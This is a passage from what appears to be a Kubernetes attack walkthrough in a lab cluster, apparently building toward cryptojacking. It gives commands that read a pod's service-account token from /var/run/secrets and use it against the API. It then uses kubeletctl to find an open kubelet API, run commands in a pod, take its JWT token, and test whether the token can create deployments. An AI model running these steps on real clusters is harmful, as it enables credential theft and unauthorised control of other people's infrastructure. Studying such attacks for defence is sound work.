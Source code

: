 Let us take a sanity check here and play with this service account. Feel free to skip over this as it is not part of the attack. Let us exec onto the pod using our kubectl profile setup by minikube. `kubectl exec -it my-pod bash`. Now we can add the credentials file to our environment vars and curl the API. You should see some JSON returned back. This lets us know we are using the service account! Now we are comfortable with the concept of service accounts we can return to the attack narrative.

```bash
CA_CERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl --cacert $CA_CERT -H "Authorization: Bearer $TOKEN" \
"https://kubernetes/api/v1/namespaces/$NAMESPACE/services/"

```

## Using [Kubeletctl](https://github.com/cyberark/kubeletctl)

Back to the attack. Rather than messing around with the Kubelet API via Curl cyberark has developed a tool to interface with the API. I recommend installing it with Docker.

```bash
git clone https://github.com/cyberark/kubeletctl
cd kubeletctl
make docker
docker run -it --rm kubeletctl:latest
```


First start by scanning the cluster subnet looking to open kubelet APIs.


![scan.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/scan.png)

I have discovered one open kubelete API. Next, we can scan that API for pods that we can execute commands on. We find "my-pod" deployed in the default namespace we can RCE.

![rce.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/rce.png)

Finally, we scan the pod to see if it has a Service account "ruse-sa" attached.

![token.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/token.png)

We found some tokens! The tool returns the JWT token from the pod. As seen above we can now use that JWT token to authenticate to the K8 API. Here I am using kubectl and passing the API running at 172.17.0.2:8443 and our enumerated JWT token.

```bash
TOKEN=<TOKEN>
kubectl --insecure-skip-tls-verify=true  \
          --server="https://172.17.0.2:8443"   \
          --token="$TOKEN" \
		  auth can-i create deployments
```
